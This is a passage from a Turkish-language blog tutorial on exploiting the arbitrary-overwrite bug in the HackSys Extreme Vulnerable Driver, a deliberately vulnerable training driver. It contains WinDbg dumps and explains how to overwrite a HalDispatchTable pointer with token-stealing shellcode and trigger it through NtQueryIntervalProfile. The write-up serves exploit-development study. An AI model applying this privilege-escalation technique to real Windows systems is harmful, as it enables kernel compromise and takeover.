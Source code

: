 ```
00000000`002cfd40  42424242`42424242 43434343`43434343
00000000`002cfd50  01882514`8b486550 8b4d705a`8b4c0000
00000000`002cfd60  0a8b4900`00018893 04fa8348`f8518b48
```

Gördüldüğü üzere `dq` ile 8 baytlık parçalar halinde `r12` yazmacındaki adrese baktığımda gönderdiğim veriyi görüyorum. Çalışmayı devam ettirelim.

```
kd> g
[+] UserWriteWhatWhere: 0x00000000002CFD40
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4242424242424242
[+] UserWriteWhatWhere->Where: 0x4343434343434343
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```

Beklediğimiz gibi bir istisna fırladı ve yakalandı. İstisna kodu gördüğünüz gibi `0xC0000005`, o da `STATUS_ACCESS_VIOLATION` demek oluyor. Tam olarak beklediğimiz sonuç.

## "*Exploit*" Yazımı

Şimdi geldik cavcaklı bölüme. Küçük bir hafıza tazeleme yaparsak bizim önceki yazılarımızda yaptığımız şey "*token*" çalan bir "*shellcode*"'u çalıştırmaktı. Pekii, bu zafiyet türünü kullanarak bu "*shellcode*"'umuzu nasıl çağıracağız? Burada çağırmaya izin veren bir şey yok ki! Sadece bir yerlere bir şeyler yazmamıza izin veriyor. Amacımız bir yerlere yazıp birtakım korumaları devre dışı bırakmak olmadığına göre, çağırılacağını bildiğimiz bir yerin adresinin üzerine bizim [çakal karlos](https://www.youtube.com/watch?v=8jUqmKkDzEA)'un adresini yazarsak nasıl olur???

### Nereye Yazalım?

O halde çağırılacağını bildiğimiz bir yerin değerini değiştirelim. Mesela [SSDT](/posts/kancalama-sanati-ssdt) tablosundaki bir fonksiyon göstericinin üzerine yazsak nasıl olur? Teorik olarak olur, ama pratikte sorun çıkarır. Neden? Birincisi bu tablo PatchGuard[^1] kankamız tarafından korunuyor. - Gerçi biraz sonra göstereceğimiz yer de korunuyor da, neyse, bizim işimizi görmek için yeterli zamanımız olacak hehe- Burada yaptığımız bir değişiklik onu sinirlendirecektir. İkincisi ve esas önemlisi, işletim sisteminin iç işleyişini mümkün oldukça bozmamamız gerekiyor. Saniyede binlerce çağrı oluyor bu sistemde, bizim yapacağımız bu değişiklik ortalığı ciddi anlamda karıştırabilir. 

Hmm. O halde bu demektir ki bize tenha bir yer lazım. Çok fazla çağırılmayan, çağırılsa da sağı solu patlatmayan bir şey. O zaman neden `HalDispatchTable`'ı denemeyelim? Hem yazılabilir hem de nadir kullanılan bir alan neticede??? 2007'de bir vatandaşın aklına gelmiş bu yöntem. Bir sunumda bahsetmişti fakat şu an adını getiremedim. Peki olay nedir? Çok basit. Windows'daki donanım soyutlama katmanının (HAL) işini yaparken kullandığı SSDT gibi bir tablo burası. Fakat SSDT'ye göre çok daha nadir kullanılıyor. Biz bu tablonun ikinci sırasındaki fonksiyon göstericisini, bizim "*shellcode*"'umuzun adresi ile değiştirirsek iş tamamdır. Ha, "yahu bunu buraya koyduk da, nasıl çağırılacak bu???"" diyenleri duyar gibiyim, onun için de başka bir fonksiyon devreye girecek : `NtQueryIntervalProfile`.

Öncelikle bu tablonun değiştireceğimiz kısmında ne var onu göstereyim:

```
kd> dq nt!HalDispatchTable
fffff800`02810cb0  00000000`00000004 fffff800`02c438e8
fffff800`02810cc0  fffff800`02c44470 fffff800`02a0f5e0
fffff800`02810cd0  00000000`00000000 fffff800`026db170
fffff800`02810ce0  fffff800`029b4b50 fffff800`029b528c
fffff800`02810cf0  fffff800`02afdf60 fffff800`026befe0
fffff800`02810d00  fffff800`02683490 fffff800`02683490
fffff800`02810d10  fffff800`02c42ca4 fffff800`02c43e88
fffff800`02810d20  fffff800`02c18534 fffff800`02c42c18
kd> u fffff800`02c438e8
hal!HaliQuerySystemInformation:
fffff800`02c438e8 fff3            push    rbx
fffff800`02c438ea 55              push    rbp
```

[^1]: Sistemdeki önemli veri yapılarını korumakla görevli bir mekanizma.